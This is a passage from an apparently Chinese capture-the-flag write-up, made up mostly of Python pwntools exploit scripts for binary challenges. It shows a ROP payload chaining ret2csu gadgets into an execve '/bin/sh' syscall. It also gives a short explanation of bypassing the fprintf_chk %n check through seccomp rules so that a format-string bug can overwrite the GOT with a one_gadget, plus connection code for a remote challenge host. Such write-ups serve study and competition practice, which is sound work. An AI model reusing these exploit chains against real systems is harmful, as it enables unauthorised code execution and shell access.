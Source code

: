 ```python
puts = e.plt['puts']
bss = 0x620000+0x800
prbp = r.rbp[0]
leave = r.leave[0]

context.arch = 'amd64'

sl('1000')
ru('OH, WHY ARE YOU SO GOOD?\n')
payload = 'a'*24 +p64(prdi)+p64(0x620030)+p64(puts)
payload += flat(0x414FBA,0,1,0x620030,0x200,bss,0,0x414FA0,'a'*56)
payload += flat(prbp,bss-8,leave)


se(payload+'\n')
p_addr = u64(ru('\n')[:-1]+'\0\0')
syscall = p_addr+0xe


payload = flat(0x414FBA,0,1,0x620030,0x3b,bss+0x400,0,0x414FA0,'a'*56)
payload += flat(0x414FBA,0,1,bss+0x100,0,0,bss+0x108,0x414FA0,p64(syscall))
payload = payload.ljust(0x100,'a')
payload += p64(0x0414FD8)+'/bin/sh\0'

raw_input()

se(payload)

raw_input()
se(cyclic(0x3b))

print(hex(p_addr))
p.interactive()

```

### 聂许

抄的是上一年xnuca的secretcenter

这里可以设置任意的seccomp规则，然后有一个格式化字符串漏洞，但是是使用fprintf_chk，可以设置seccomp规则来绕过%n的check，然后利用格式化字符串直接写got表，在open那里写一个one_gadget，直接get shell

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process(['seccomp-tools','dump','./pwn'])
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50004)

def ru(x):
    return p.recvuntil(x,timeout=3)

def se(x):
    p.send(x)

```